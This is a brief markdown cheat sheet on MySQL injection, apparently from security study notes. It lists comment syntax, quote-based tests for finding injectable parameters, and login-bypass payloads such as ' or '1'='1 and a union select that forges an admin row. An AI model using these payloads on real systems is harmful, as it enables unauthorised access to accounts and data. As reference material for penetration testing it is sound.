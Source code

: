# MySQL Injection

## Comments

| Syntax  |
|---------|
| #       |
| /*      |
| -- -    |
| %00     |
| `       |

## Identify Vulnerability

### Strings

```
'     false
''    true
"     false
""    true
\     false
\\    true
```

### Numeric / Digits

```

```

### Login

```
username: '-0#
password: <anything>

username: ' or '1'='1
password: ' or '1'='1

username: ' union select ...,'admin',md5('foobar'),...
password: foobar
```

## Resources

* https://websec.ca/kb/sql_injection
